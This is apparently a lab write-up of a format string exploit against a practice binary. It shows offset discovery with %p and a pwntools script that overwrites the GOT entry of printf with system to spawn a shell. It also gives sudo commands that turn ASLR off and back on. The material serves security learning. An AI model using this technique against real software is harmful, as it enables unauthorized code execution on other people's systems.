

# 🔓 Format String Exploit — GOT Overwrite (ASLR Disabled)

## 📁 Binary: `got_overwrite-32`

### 🧠 Objective

Exploit a format string vulnerability to overwrite the GOT entry of `printf()` with `system()` from libc. Once done, calling `printf("/bin/sh")` will effectively call `system("/bin/sh")`, giving us a shell.

---

## 🏗️ Binary Analysis

**Protections:**

```bash
checksec got_overwrite-32
```

```
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

---

## 🔎 Vulnerability

The binary uses this vulnerable function:

```c
void vuln() {
    char buffer[300];

    while(1) {
        fgets(buffer, sizeof(buffer), stdin);
        printf(buffer);  // 🔥 Format string vulnerability
        puts("");
    }
}
```

We're directly passing user input to `printf()` without a format specifier, which allows us to:

* Leak memory via `%p`
* Write to memory using `%n`, `%hn`, or `%hhn`

---

## ⚙️ Exploitation Strategy

### Goal:

Overwrite the GOT entry of `printf()` with the address of `system()` in libc.

### Steps:

1. Confirm ASLR is disabled
2. Leak the **format string offset** to know where our input is on the stack

we can do this by using 

```bash
$ ./got_overwrite-32 
%p %p %p %p %p
0x12c 0xf7fa15c0 0x8049191 0x6 0x25207025
```

here we can se that 0x25207025 translate to %p so our input is on the 5th offset on the stack


3. Use `fmtstr_payload()` from Pwntools to craft a format string that writes `libc.sym['system']` to `elf.got['printf']`

```python
fmtstr_payload(5, {elf.got['printf']: libc.sym['system']})
```

this will genrate an payload using `%n` or `%hn` or `%hhn`

4. Send `"/bin/sh"` as input — which now gets executed as `system("/bin/sh")`

---

## 🧪 Exploit Script

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = ELF('/usr/lib/i386-linux-gnu/libc.so.6')
libc.address = 0xf7d6e000  # ASLR disabled

p = process()

# Offset determined via trial: input is 5th argument on the stack
payload = fmtstr_payload(5, {elf.got['printf']: libc.sym['system']})
print(payload)

# Step 1: Overwrite printf@GOT → system
p.sendline(payload)

# Step 2: Trigger system("/bin/sh") via printf("/bin/sh")
p.sendline('/bin/sh')

# Step 3: Shell!
p.interactive()
```

---

## 💣 Notes

* You must run this **with ASLR disabled**, e.g.:

  ```bash
  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
  ```

To enable ASLR again on your Linux system after disabling it, you can simply run the following command:

```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```


| Value | Meaning                                 |
| ----- | --------------------------------------- |
| `0`   | ASLR disabled                           |
| `1`   | Partial ASLR                            |
| `2`   | **Full ASLR** (default on most systems) |

<br>


* If unsure about the offset, test it manually using:

  ```bash
  ./got_overwrite-32
  AAAA.%p.%p.%p...
  ```

---

## 🐚 Result

Upon successful execution, the `printf("/bin/sh")` call gets redirected to `system("/bin/sh")`, spawning a shell.



boom we got the shell


---

## 📂 Category

✅ Format String | ✅ GOT Overwrite | ❌ ASLR | ✅ 32-bit

